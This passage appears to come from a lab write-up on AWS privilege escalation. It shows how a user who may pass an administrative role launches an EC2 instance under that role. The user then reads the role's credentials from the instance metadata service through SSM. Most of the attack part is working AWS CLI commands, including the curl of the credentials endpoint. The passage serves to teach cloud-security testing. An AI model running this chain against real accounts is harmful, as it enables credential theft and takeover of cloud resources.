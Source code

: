 ```json
}
```

When the role is defined on the console to be assumed by EC2, an instance profile is automatically created by the backend to allow for the instance to assume that role. The only remaining step at that point is to allow an authorized user to pass a role to it. The policy attached to the above passable role is that of an administrative user.

Several pieces of information are required to launch an EC2 instance. These can be gathered as follows &rarr;

1. Get the AMI-ID to launch a machine and get the Image ID &rarr;

```bash
awsn ec2 describe-images --owners "amazon" --filters "Name=name,Values=amzn2-ami-hvm-*x86_64-gp2" "Name=state,Values=available" "Name=architecture,Values=x86_64" | jq '.Images | sort_by(.CreationDate) | last(.[])'
```

2. Get the available subnets and retrieve a Subnet ID &rarr;

```bash
awsn ec2 describe-subnets
```

3. Get the security group to associate with the instance. The Group ID is the field of importance. There were many security groups here, however, an interesting one was the `sshAccesss` SG which allowed SSH access from anywhere on the internet. This was not useful though, since the user did not have permissions to add an SSH key. So, any security group would suffice &rarr;

```bash
awsn ec2 describe-security-groups
```

4. The instance profile name can be obtained from the above Role detail as `ec2_admin`.

Now, the instance can be launched using the following command &rarr;

```bash
awsn ec2 run-instances --subnet-id "subnet-0d3f2d36c562ea754" --image-id "ami-00db75007d6c5c578" --iam-instance-profile Name=ec2_admin --instance-type t2.micro --security-group-ids "sg-0cd10f19654a602f8"
```

This launched the instance and returns a bunch of information about it along with the instance ID, which is necessary to use when trying to execute things via SSM. The EC2 instance effectively has the assumed role of `ec2admin`. The next step is to get the credentials via the metadata service.

Commands can be issued to the EC2 instance using SSM using the following &rarr;

```bash
ssm send-command --targets "Key=instanceids,Values=i-02930a6a3317e02e1" --document-name "AWS-RunShellScript" --comment "aws_cli_run_lab" --parameters 'commands=["curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2admin/"]'
```

This runs the command and returns an ID associated with the command invocation. The ID can be used to retrieve the output as follows &rarr;

```bash
awsn ssm get-command-invocation --command-id 35218027-97f2-4b68-8495-aa78cb0e9065 --instance-id i-02930a6a3317e02e1
```
